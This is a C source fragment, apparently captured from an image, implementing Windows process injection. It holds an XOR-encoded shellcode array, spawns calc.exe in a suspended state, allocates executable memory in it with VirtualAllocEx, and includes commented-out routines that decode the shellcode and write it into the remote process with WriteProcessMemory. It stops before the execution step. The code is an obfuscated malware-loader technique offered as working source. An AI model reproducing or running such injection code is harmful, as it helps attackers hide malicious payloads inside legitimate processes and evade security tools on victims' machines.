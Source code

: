 ```
	unsigned char shellcode[] = { '\x26','\x92','\x59','\x3e','\x2a','\x32','\x1a','\xda','\xda','\xda','\x9b','\x8b','\x9b','\x8a','\x88','\x8b','\x8c','\x92','\xeb','\x08','\xbf','\x92','\x51','\x88','\xba','\x92','\x51','\x88','\xc2','\x92','\x51','\x88','\xfa','\x92','\x51','\xa8','\x8a','\x92','\xd5','\x6d','\x90','\x90','\x97','\xeb','\x13','\x92','\xeb','\x1a','\x76','\xe6','\xbb','\xa6','\xd8','\xf6','\xfa','\x9b','\x1b','\x13','\xd7','\x9b','\xdb','\x1b','\x38','\x37','\x88','\x9b','\x8b','\x92','\x51','\x88','\xfa','\x51','\x98','\xe6','\x92','\xdb','\x0a','\x51','\x5a','\x52','\xda','\xda','\xda','\x92','\x5f','\x1a','\xae','\xbd','\x92','\xdb','\x0a','\x8a','\x51','\x92','\xc2','\x9e','\x51','\x9a','\xfa','\x93','\xdb','\x0a','\x39','\x8c','\x92','\x25','\x13','\x9b','\x51','\xee','\x52','\x92','\xdb','\x0c','\x97','\xeb','\x13','\x92','\xeb','\x1a','\x76','\x9b','\x1b','\x13','\xd7','\x9b','\xdb','\x1b','\xe2','\x3a','\xaf','\x2b','\x96','\xd9','\x96','\xfe','\xd2','\x9f','\xe3','\x0b','\xaf','\x02','\x82','\x9e','\x51','\x9a','\xfe','\x93','\xdb','\x0a','\xbc','\x9b','\x51','\xd6','\x92','\x9e','\x51','\x9a','\xc6','\x93','\xdb','\x0a','\x9b','\x51','\xde','\x52','\x92','\xdb','\x0a','\x9b','\x82','\x9b','\x82','\x84','\x83','\x80','\x9b','\x82','\x9b','\x83','\x9b','\x80','\x92','\x59','\x36','\xfa','\x9b','\x88','\x25','\x3a','\x82','\x9b','\x83','\x80','\x92','\x51','\xc8','\x33','\x8d','\x25','\x25','\x25','\x87','\x92','\x60','\xdb','\xda','\xda','\xda','\xda','\xda','\xda','\xda','\x92','\x57','\x57','\xdb','\xdb','\xda','\xda','\x9b','\x60','\xeb','\x51','\xb5','\x5d','\x25','\x0f','\x61','\x2a','\x6f','\x78','\x8c','\x9b','\x60','\x7c','\x4f','\x67','\x47','\x25','\x0f','\x92','\x59','\x1e','\xf2','\xe6','\xdc','\xa6','\xd0','\x5a','\x21','\x3a','\xaf','\xdf','\x61','\x9d','\xc9','\xa8','\xb5','\xb0','\xda','\x83','\x9b','\x53','\x00','\x25','\x0f','\xb9','\xb7','\xbe','\xf4','\xbf','\xa2','\xbf','\xda' };

	int szShellcode = sizeof(shellcode);
	VOID CALLBACK APCProc();

	if (!CreateProcessA((LPCSTR)"C:\\Windows\\System32\\calc.exe", (LPSTR)NULL, (LPSECURITY_ATTRIBUTES)NULL, (LPSECURITY_ATTRIBUTES)NULL, (BOOL)FALSE, (DWORD)CREATE_SUSPENDED, (LPVOID)NULL, (LPCSTR)NULL, (LPSTARTUPINFOA)&si, (LPPROCESS_INFORMATION)&pi)) {
#ifdef _DEBUG
        printf("CreateProcessA failed: %x\n", GetLastError());
#endif
        return -1;
	}

	LPVOID shellcodeBaseAddress = VirtualAllocEx(pi.hProcess, NULL, szShellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (shellcodeBaseAddress == NULL) {
#ifdef _DEBUG
            printf("VirtualAllocEx failed: %x\n", GetLastError());
#endif
			return -1;
	}

    /* Standard API */
//    if (!WriteProcessMemory(pi.hProcess, shellcodeBaseAddress, shellcode, szShellcode, NULL)) {
//#ifdef _DEBUG
//        printf("WriteProcessMemory failed: %x\n", GetLastError());
//#endif
//		return -1;
//	}

    /* Standard API - xorred shellcode */
//    for (int i = 0; i < szShellcode; i++) {
//        char DecodedOpCode = shellcode[i] ^ 0xda;
//
//        BOOL WriteProcessMemoryStatus = WriteProcessMemory(pi.hProcess, ((char*)shellcodeBaseAddress) + i, &DecodedOpCode, sizeof(char), NULL);
//        if (!WriteProcessMemoryStatus) {
//#ifdef _DEBUG
//            printf("Writing the shellcode memory to remote process using WriteProcessMemory failed: %x\n", GetLastError());
//#endif
//            return 1;
//        }
```